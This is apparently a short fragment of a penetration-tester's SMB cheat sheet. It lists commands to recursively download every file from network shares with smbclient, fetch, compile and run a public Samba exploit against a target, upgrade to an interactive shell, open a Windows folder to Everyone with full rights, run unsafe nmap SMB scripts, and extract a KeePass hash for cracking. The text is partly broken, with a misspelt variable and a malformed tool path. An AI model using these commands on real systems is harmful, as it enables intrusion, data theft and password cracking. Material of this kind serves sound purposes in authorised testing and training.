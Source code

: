 ```bash
prompt OFF  
```

```bash
mget *
```

```bash
exit
```

```bash
cd ..
```

```bash
find SMBLoot/ -type f
```

To read files locally

```bash
get FileName -
```

==2nd example==  
smbclient //$TARET/Replication  
RECURSE ON  
PROMPT OFF  
mget *

#### Low Level Samba Exploit

```bash
searchsploit -m 10
```

```bash
gcc -o exploit-samba 10.c
```

```bash
./exploit-samba -b 0 $TARGET
```

```bash
python -c 'import pty;pty.spawn("/bin/bash")'
```

#### Windows share local folder with everyone

Operators Handbook pg 331

```batch
net share cshare C:\<share> /GRANT:Everyone,FULL
```

#### Unsafe nmap script

```bash
sudo nmap --script=smb-enum* --script-args=unsafe=1 $TARGET
```

#### Responder - File upload attack

[https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/](https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/)

```bash
run/keepass2john CrackThis.kdb > CrackThis.txt
```

